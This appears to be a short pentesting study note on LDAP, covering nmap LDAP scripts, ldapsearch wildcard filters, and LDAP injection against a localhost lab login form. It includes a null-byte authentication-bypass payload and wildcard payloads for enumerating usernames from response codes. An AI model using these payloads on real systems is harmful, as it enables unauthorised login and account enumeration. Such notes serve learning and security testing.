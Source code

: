 The **nmap** tool contains scripts for *LDAP*. They can be found as follows:

```bash
locate .nse | grep ldap
```

We can launch a scan with **nmap** by running all the *LDAP* scripts it has:

```bash
# Run all nmap scripts containing or starting with ldap
nmap --script ldap\* -p 389 localhost
```

In the results we can see the *dc* 'example' and 'org'.

We can play with \* to autocomplete fields in case they are not sanitized:

```bash
# In this case you will find the description starting with LDAP as the user admin
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin)(description=LDAP*))'
```

Queries can be more complex:

```bash
# In this case we say that either the cnd is admin and (&) the description starts with LDAP or (|) the cn is admin and the telephoneNumber is 6666666666666
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(|(&(cn=admin)(description=LDAP*))(&(cn=admin)(telephoneNumber=666666666)))'
```

If we check the request that we send to log in we see that as data, it includes the following:

```
user_id=admin&password=admin&login=1&submit=Submit
```

We can log in and get the session cookie if we close the query by commenting out the end with a null byte to ignore the password, which would make it possible to log in knowing only the user:

```shell
# This is the same...
user_id=admin))%00&password=testing&login=1&submit=Submit

# ... like this
(&(cn=admin))%00)(userPassword=testing))
```

Therefore, as in the case of [[NoSQL Injections]], we have a potential way to enumerate users with the \*:

```shell
# This will give us the code 301 (redirection) which in this case indicates that the login is correct and therefore, the user begins with the indicated letters (admin is the user we want)
user_id=a*&password=*&login=1&submit=Submit
user_id=ad*&password=*&login=1&submit=Submit
user_id=adm*&password=*&login=1&submit=Submit

# This will give us the code 200 (redirection) which in this case indicates that the login is incorrect and therefore, the user does not beggins with ar (admin is the user we want)
user_id=ar*&password=*&login=1&submit=Submit
```
